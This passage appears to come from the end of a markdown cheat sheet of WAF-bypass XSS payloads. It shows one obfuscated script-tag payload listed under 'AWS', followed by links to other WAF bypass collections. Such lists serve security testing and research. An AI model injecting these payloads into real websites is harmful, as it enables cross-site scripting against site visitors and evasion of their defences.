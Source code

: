 7. AWS
```
<script>eval(atob(decodeURIComponent(confirm`1`)))</script>
```

If you want to see the other payload for other WAF, check this [link](https://github.com/0xInfection/Awesome-WAF)

## References
- [Brute Logic](https://brutelogic.com.br/)
- [Awesome-WAF](https://github.com/0xInfection/Awesome-WAF)
- Some random twitter posts
